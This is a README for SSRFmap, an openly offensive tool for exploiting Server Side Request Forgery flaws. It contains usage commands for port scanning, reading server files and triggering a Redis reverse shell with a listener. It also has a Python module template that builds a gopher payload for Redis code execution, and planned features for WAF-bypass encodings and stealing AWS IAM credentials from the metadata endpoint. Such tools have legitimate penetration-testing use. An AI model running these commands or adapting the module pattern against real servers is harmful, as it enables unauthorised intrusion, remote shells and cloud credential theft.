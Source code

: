 # SSRFmap

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf. It's often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

## Guide / RTFM

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- --level arg - ability to tweak payloads in order to bypass some IDS/WAF. E.g: `127.0.0.1 -> [::] -> 0000: -> ...`
- networkscan - same a portscan, we want to discover machines in the same network
- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name        = "servicename in lowercase"
description = "ServiceName RCE - What does it do"
author      = "Name or pseudo of the author"

class exploit():

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Data for the service
        ip   = "127.0.0.1"
        port = "6379"
        data = "*1%0d%0a$8%0d%0af[...]save%0d%0aquit%0d%0a"
        payload = wrapper_gopher(data, ip , port)

        # Handle args for reverse shell
        if args.lhost == None: payload = payload.replace("SERVER_HOST", input("Server Host:"))
        else:                  payload = payload.replace("SERVER_HOST", args.lhost)

        if args.lport == None: payload = payload.replace("SERVER_PORT", input("Server Port:"))
        else:                  payload = payload.replace("SERVER_PORT", args.lport)

        # Send the payload
        r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)